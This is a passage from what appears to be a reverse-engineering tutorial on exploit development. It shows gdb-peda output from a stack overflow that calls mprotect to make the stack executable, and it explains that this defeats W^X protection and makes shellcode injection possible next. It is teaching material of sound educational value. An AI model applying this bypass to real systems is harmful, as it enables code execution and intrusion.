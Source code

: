     [----------------------------------registers-----------------------------------]
    EAX: 0x0 
    EBX: 0xfffdc000 --> 0x0 
    ECX: 0x22000 
    EDX: 0x7 
    ESI: 0xf7fa5000 --> 0x1b1db0 
    EDI: 0xf7fa5000 --> 0x1b1db0 
    EBP: 0x61616161 ('aaaa')
    ESP: 0xffffcc2c --> 0x0 
    EIP: 0xf7ed5db9 (<mprotect+25>:	pop    ebx)
    EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    0xf7ed5da9 <mprotect+9>:	mov    ebx,DWORD PTR [esp+0x8]
    0xf7ed5dad <mprotect+13>:	mov    eax,0x7d
    0xf7ed5db2 <mprotect+18>:	call   DWORD PTR gs:0x10
    => 0xf7ed5db9 <mprotect+25>:	pop    ebx
    0xf7ed5dba <mprotect+26>:	cmp    eax,0xfffff001
    0xf7ed5dbf <mprotect+31>:	jae    0xf7e0b730
    0xf7ed5dc5 <mprotect+37>:	ret    
    0xf7ed5dc6:	xchg   ax,ax
    [------------------------------------stack-------------------------------------]
    0000| 0xffffcc2c --> 0x0 
    0004| 0xffffcc30 ("cccc")
    0008| 0xffffcc34 --> 0xfffdc000 --> 0x0 
    0012| 0xffffcc38 --> 0x22000 
    0016| 0xffffcc3c --> 0x7 
    0020| 0xffffcc40 --> 0xf7fa5000 --> 0x1b1db0 
    0024| 0xffffcc44 --> 0xf7fa5000 --> 0x1b1db0 
    0028| 0xffffcc48 --> 0x0 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    0xf7ed5db9 in mprotect () from /lib/i386-linux-gnu/libc.so.6
    gdb-peda$

It returned a **0**. 

Let us check the maps file again to confirm. 

    rev_eng_series/post_15}=)> cat /proc/464/maps
    ---
    fffdc000-ffffe000 rwxp 00000000 00:00 0                                  [stack]

Bingo! This worked. 

The highlight is we **defeated W^X** at this point. 

From now on, we will write python scripts to build the payloads. It is easy and well organized. 

## Can we try Code Injection now?

We now know how to make writable address spaces executable. With that, we have defeated W^X security technique. 

And now, we can bring back Code Injection. Instead of putting an Invalid Address for mprotect to return to, put the address where you store your shellcode. 
